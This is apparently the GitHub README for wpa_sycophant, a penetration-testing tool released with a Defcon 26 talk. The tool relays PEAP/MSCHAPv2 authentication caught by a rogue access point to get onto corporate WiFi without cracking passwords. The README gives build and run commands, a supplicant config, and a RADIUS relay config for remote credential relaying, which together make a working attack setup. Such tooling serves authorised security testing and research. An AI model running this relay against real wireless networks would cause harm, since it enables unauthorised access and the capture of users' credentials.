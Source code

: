 

# WPA_Sycophant

[![Build Status](https://travis-ci.org/sensepost/wpa_sycophant.svg?branch=master)](https://travis-ci.org/sensepost/wpa_sycophant)

A tool to relay phase 2 authentication attempts to access corporate wireless without cracking the password. 

This was released as part of a [Defcon 26 talk](https://www.youtube.com/watch?v=eYsGyvGxlpI) and is a component in the MSCHAP relay attack, the other being [Hostapd-Mana](https://github.com/sensepost/hostapd-mana/) with the [enable_sycophant](https://github.com/sensepost/hostapd-mana/wiki/EAP-Relay-with-Sycophant) flag. 

A hub of wireless hacking information is at https://w1f1.net/ where links to other tools may be found. 


## Current support

 - Basic PEAP using MSCHAPv2


## How-To

To use this technique it is required that you run a rogue access point so that a legitimate user will connect to you so that you may relay the authentication attempt to Sycophant. 

To do this with [hostapd-mana](https://github.com/sensepost/hostapd-mana) you add a flag `enable_sycophant` Mana will write down the first part of the challenge response once a user connects. This is picked up by Sycophant to initiate the handshake against the target WiFi. 

To compile the modified wpa_supplicant binary:

```
make -C wpa_supplicant
```

Running wpa_sycophant may be done using the script `wpa_sycophant.sh` and the current supported commands are: 

   - `-c` to give it a config file, I suggest modifying the provided example.
   - `-i` to provide the interface to use. 

an example command would be:
    
    sudo ./wpa_sycophant.sh -c wpa_sycophant_example.conf -i wlp0s20f0u6


## Example Config

```
network={
  ssid="TestingEAP"
  # The SSID you would like to relay and authenticate against. 
  scan_ssid=1
  key_mgmt=WPA-EAP
  # Do not modify
  identity=""
  anonymous_identity=""
  password=""
  # This initialises the variables for me.
  # -------------
  eap=PEAP
  phase1="crypto_binding=0 peapver=0"
  phase2="auth=MSCHAPV2"
  # Dont want to connect back to ourselves,
  # so add your rogue BSSID here.
  bssid_blacklist=00:14:22:01:23:45
}
```


## Dont Relay to yourself

Since you will be running a rogue AP potentialy near by your supplicant there is the possiblity that you will try relay to yourself. To stop this check the MAC/BSSID of your access point and add that to the `bssid_blacklist` of your config. 



## Remote Relay

If you would like to separate the AP and Sycophant so that they are running on separate hosts or you wish to use Enterprise grade equipment. 

This may be done by running MANA in RADIUS only mode. This will create a local RADIUS server that will relay the authentication to the local Sycophant. This allows you to setup your rogue to use that remote RADIUS server and relay credentials over the Internet or other networks.

A example RADIUS server config for MANA with Sycophant enabled is below:

```
interface=<Ethernet Interface>
driver=wired
# If you would like to run on loopback:
#driver=none 

eap_server=1
eap_user_file=hostapd.eap_user
ca_cert=rogue-ca.pem
server_cert=radius.pem
private_key=radius.key
private_key_passwd=

radius_server_clients=hostapd.radius_clients
# Contents of hostapd.radius_clients:
# 0.0.0.0/0 P@ssw0rd

radius_server_auth_port=1812

# -1 = log all messages
logger_syslog=-1
logger_stdout=-1

# 2 = informational messages
logger_syslog_level=1
logger_stdout_level=1

enable_sycophant=1
```

You may then use this remote RADIUS server with any AP that supports RADIUS authentication. 
